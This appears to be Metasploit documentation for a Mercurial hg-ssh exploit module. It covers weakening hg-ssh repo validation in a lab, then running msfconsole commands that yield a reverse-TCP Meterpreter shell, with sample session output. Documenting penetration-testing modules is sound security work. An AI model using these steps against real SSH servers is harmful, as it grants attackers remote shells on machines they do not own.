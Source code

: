 ## Vulnerable Application

[mercurial](https://www.mercurial-scm.org/downloads).

This module was successfully tested against:

Kali Linux, HG 4.0 and a customized hg-ssh (to simulate custom hg-ssh wrappers which have weak repo validation)

## Vulnerable Server Setup Steps

  1. Install mercurial on your test server
  2. Patch the hg-ssh Python script script to emulate custom/weak repo validation in hg-ssh wrapper `vi $(which hg-ssh)`
     - Replace `if repo in allowed paths:` with `if True:`
     - Replace `cmd = ['-R', repo, 'serve', 'stdio']` with `cmd = ['-R', path, 'serve', 'stdio']`
  3. Setup a user with SSH pubkey auth
  4. Create a test repo in the users home directory and add a commit
     - `mkdir -p repos/repo1`
     - `cd repos/repo1`
     - `echo "hello world" > README`
     - `hg add README`
     - `hg commit -m "Adds README"`
  5. Restrict user in authorized_keys to hg-ssh binary only
     - `command="hg-ssh ~/repos/repo1",no-port-forwarding,no-X11-forwarding,no-agent-forwarding INSERT_SSH_PUB_KEY`
  6. Verify SSH user can authenticate (should prompt and prevent a shell)
     - `ssh user@192.168.10.99`
  7. Verify SSH user commands are not allows (should prevent arbitrary commands)
     - `ssh user@192.168.10.99 ifconfig`

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/mercurial_ssh_exec`
  3. Do: `set RHOST <ip>`
  4. Do: `set LHOST <ip>`
  5. Do: `set SSH_PRIV_KEY_FILE /Users/jsmith/.ssh/id_rsa`
  6. Do: `exploit`
  7. You should get a shell.

## Scenarios

### Kali Linux, HG 4.0 and a customized hg-ssh (to simulate custom hg-ssh wrappers which have weak repo validation)

```
msf exploit(mercurial_ssh_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.37:4444 
[*] 192.168.10.99:22 - 192.168.10.99:22 - Attempting to login...
[+] 192.168.10.99:22 - SSH connection is established.
[+] 192.168.10.99:22 - Triggered Debugger (entering debugger - type c to continue starting hg or h for help)
[*] Sending stage (39842 bytes) to 192.168.10.99
[*] Meterpreter session 1 opened (192.168.10.37:4444 -> 192.168.10.99:57606) at 2017-04-18 19:16:44 -0400
```

